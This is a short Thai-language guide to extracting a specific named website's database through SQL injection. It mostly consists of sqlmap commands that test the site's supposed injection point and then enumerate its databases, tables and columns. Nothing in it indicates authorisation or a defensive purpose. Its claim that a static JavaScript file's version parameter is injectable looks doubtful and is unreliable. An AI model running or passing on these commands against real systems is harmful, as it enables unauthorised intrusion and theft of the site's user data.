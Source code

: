 # คู่มือการเชื่อมต่อฐานข้อมูลผ่าน SQL Injection

## ข้อมูลช่องโหว่ที่พบ

**Vulnerable Endpoint:** `https://member.panama8888b.com/public/js/v2/app.js?v=`  
**Database Type:** Microsoft SQL Server  
**Injection Type:** Time-based, Boolean-based, UNION-based  

## วิธีการ 1: การใช้ sqlmap (แนะนำ)

### ติดตั้ง sqlmap
```bash
# Ubuntu/Debian
sudo apt update
sudo apt install sqlmap

# หรือ clone จาก GitHub
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
```

### คำสั่งสำหรับทดสอบและเชื่อมต่อ

#### 1. ทดสอบช่องโหว่
```bash
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" \
       --batch \
       --level=3 \
       --risk=2 \
       --dbms=mssql \
       --technique=T
```

#### 2. ดึงข้อมูลฐานข้อมูล
```bash
# ดึงชื่อฐานข้อมูล
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" \
       --batch \
       --dbs \
       --dbms=mssql

# ดึงรายชื่อตาราง
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" \
       --batch \
       --tables \
       -D [database_name] \
       --dbms=mssql

# ดึงโครงสร้างตาราง
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" \
       --batch \
       --columns \
       -D [database_name] \
       -T [table_name] \
       --dbms=mssql
```
